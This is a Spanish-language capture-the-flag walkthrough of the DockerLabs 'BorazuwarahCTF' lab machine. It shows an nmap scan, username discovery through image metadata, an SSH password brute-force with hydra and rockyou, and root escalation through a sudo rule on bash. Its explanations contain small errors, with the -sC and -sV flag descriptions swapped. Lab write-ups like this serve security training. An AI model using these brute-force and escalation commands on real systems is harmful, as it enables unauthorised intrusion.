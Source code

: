 ## WRITEUP DE LA MAQUINA BORAZUWARAHCTF DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

```shell
└─$ nmap -sC -sV -p- -n --min-rate 5000 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br>
"-p-" Escanea todos los 65535 puertos TCP.
<br>
"-n" Desactiva la resolución de nombres DNS.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-29 12:33 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00011s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.47 seconds
```
Vemos que los puertos 22 y 80 estan abiertos (servicios ssh y http respectivamente). Vamos a ingresar la ip de la máquina víctima en cualquier navegador para observar que tenemos.
<br><br>
![Foto de la pagina web](/fotos/kinder.JPG)
Vemos que solo hay una imagen jpeg, se me ocurre descargarla y mediante alguna herramienta de OSINT podamos sacar datos importantes. Esto lo haremos con la herramienta exiftool:
```
└─$ exiftool kinder.jpeg
ExifTool Version Number         : 12.76
File Name                       : kinder.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:06:16 11:40:00-04:00
File Access Date/Time           : 2024:06:26 14:25:09-04:00
File Inode Change Date/Time     : 2024:06:16 11:40:00-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207

```
De los datos obtenidos, nos llama la atencion el siguiente:

```
Description                     : ---------- User: borazuwarah ----------
``` 
Ya sabemos el nombre de usuario, por ello el próximo paso sera intentar hacer un ataque de fuerza bruta para encontrar la contraseña del usuario "borazuwarah", esto lo haremos con la herramienta "hydra":
```
└─$ hydra -l borazuwarah -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2 -t 5
```
"-l root" Indica qué nombre de usuario va a usar en el ataque, en este caso buscamos a root.
<br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist.
<br>
"ssh://172.17.0.2/" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña.

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-29 13:37:58
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-29 13:38:02
```
Tenemos que para el usuario "Borazuwarah" la contraseña es "123456", para entrar lo haremos mediante ssh:

```
└─$ ssh borazuwarah@172.17.0.2 
borazuwarah@172.17.0.2's password: 
Linux f976bd56f8e8 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun 26 18:26:17 2024 from 172.17.0.1
borazuwarah@f976bd56f8e8:~$ 
```
Ya somos el usuario "Burazuwarah" ahora toca el paso de siempre, ejecutar "sudo -l" y escalar privilegios:

```
borazuwarah@f976bd56f8e8:~$ sudo -l
Matching Defaults entries for borazuwarah on f976bd56f8e8:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on f976bd56f8e8:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```
Mediante la pagina de GTFOBINS -> https://gtfobins.github.io/gtfobins/bash/#sudo
<br>
Con el siguiente comando escalaremos privilegios y conseguiremos ser root:

```
borazuwarah@f976bd56f8e8:~$ sudo bash
root@f976bd56f8e8:/home/borazuwarah# whoami
root
```
Estamos dentro. Muchas gracias y nos vemos en la próxima.